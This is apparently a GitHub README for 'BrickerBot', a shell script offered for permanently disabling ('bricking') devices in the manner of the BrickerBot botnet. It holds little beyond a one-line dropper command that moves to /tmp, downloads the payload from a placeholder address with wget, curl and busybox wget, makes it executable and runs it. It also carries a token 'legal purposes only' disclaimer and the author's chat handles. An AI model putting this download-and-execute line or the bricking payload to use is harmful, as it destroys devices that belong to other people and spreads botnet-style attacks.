 # BrickerBot
a sh script compiled for brick the devices.<br>
this script is used for brick devices (die of the devices).<br>
this script is only for legal purposes.<br>
for bricking devices like the BrickerBot botnet make a payload with this script.<br><br>
</p>example: cd /tmp; wget ip/brickerbot; curl ip/brickerbot; /bin/busybox wget ip/brickerbot; chmod +x brickerbot; ./brickerbot<br></p><br>
@lulzawks on twitter | @facundodev on telegram | xkcd drunk#8774 on discord.
